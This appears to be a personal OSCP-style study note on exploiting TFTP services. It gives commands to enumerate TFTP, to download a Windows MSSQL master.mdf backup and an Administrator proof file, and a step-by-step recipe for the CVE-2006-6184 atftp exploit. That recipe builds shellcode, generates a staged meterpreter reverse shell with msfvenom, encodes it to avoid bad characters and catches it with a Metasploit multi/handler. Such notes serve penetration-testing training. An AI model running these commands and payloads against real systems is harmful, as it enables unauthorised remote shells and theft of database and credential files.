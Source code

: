 ### **Checks**

- [ ] Search for files to find sensitive info like passwords
- [ ] Upload shells to trigger them in web app

### OSCP book pg 488
```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```
#### tftp.py
```
pip install tftpy
```
```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/PWK/10.11.1.111/master.mdf", timeout=5)
#client.upload("filename to upload", "/local/path/file", timeout=5)
```
#### atftp
```
sudo apt install atftp
```
```
atftp -g -r "C:\Users\Administrator\Desktop\proof.txt" $TARGET
```
If you are after a path that has spaces, try using [[Abbreviated dir]]'s.
https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py
==READ THE EXPLOIT STEPS VERY CAREFULLY!!==
1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```
2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```
3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```
4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```
Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.
#### Metasploit Listener
```bash - kali
sudo msfdb run
```
```bash - kali
use exploit/multi/handler
```
```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```
```bash - kali
set ExitOnSession false
```
```bash - kali
set AutoRunScript post/windows/manage/migrate
```
```bash - kali
set lhost
```
```bash - kali
set lport
```
```bash - kali
exploit -j
```
```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```
